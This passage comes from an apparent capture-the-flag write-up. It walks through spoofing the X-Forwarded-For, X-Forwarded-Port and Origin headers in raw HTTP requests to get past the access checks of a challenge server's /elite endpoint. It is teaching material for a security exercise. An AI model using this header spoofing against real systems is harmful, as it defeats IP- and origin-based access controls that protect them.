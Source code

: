 The server now required that the request originate from a specific port number, `31173`.

### 4. Adding the `X-Forwarded-Port` Header

The `X-Forwarded-Port` header was added to include the required port number:

```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
Upgrade-Insecure-Requests: 1
User-Agent: Elite
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 50.23.41.34,3.54.85.90,110.34.87.34,10.43.21.25
X-Forwarded-Port: 31173
Orgin: http://www.chall.ycfteam.in:6375
Accept-Language: en-US,en;q=0.9
Connection: close
```

**Response:**

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sun, 25 Aug 2024 17:13:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 85
Connection: close

Wait! Where did this request even originate from? How dare you try to enter our club.
```

The server responded suspiciously, prompting the need to include an `Origin` header.

### 5. Adding the `Origin` Header

The `Origin` header was added with the base URL:

```http
GET /elite HTTP/1.1
Host: chall.ycfteam.in:6375
Upgrade-Insecure-Requests: 1
User-Agent: Elite
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 50.23.41.34,3.54.85.90,110.34.87.34,10.43.21.25
X-Forwarded-Port: 31173
Origin: http://chall.ycfteam.in:6375/
Accept-Language: en-US,en;q=0.9
Connection: close
```
